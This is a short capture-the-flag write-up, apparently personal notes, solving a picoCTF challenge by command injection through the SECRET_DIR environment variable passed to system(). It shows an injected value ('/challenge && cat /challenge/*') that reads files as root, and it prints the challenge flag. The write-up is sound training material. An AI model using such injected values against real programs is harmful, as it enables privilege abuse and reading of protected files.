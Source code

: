 ```yaml
---
created: 2024-08-08T02:41
updated: 2024-08-08T02:48
---
```


How is it reading the folders I wonder?

```bash
ctf-player@pico-chall$ SECRET_DIR='"' ./bin
Listing the content of " as root:
sh: 1: Syntax error: Unterminated quoted string
Error: system() call returned non-zero value: 512
```

Ah, it is using `system()`, and this is a command injection challenge.

Why is it in `pwn` lol.

```bash
ctf-player@pico-chall$ SECRET_DIR='/challenge && cat /challenge/*' ./bin
```

```flag
picoCTF{Power_t0_man!pul4t3_3nv_cdeb2a4d}
```
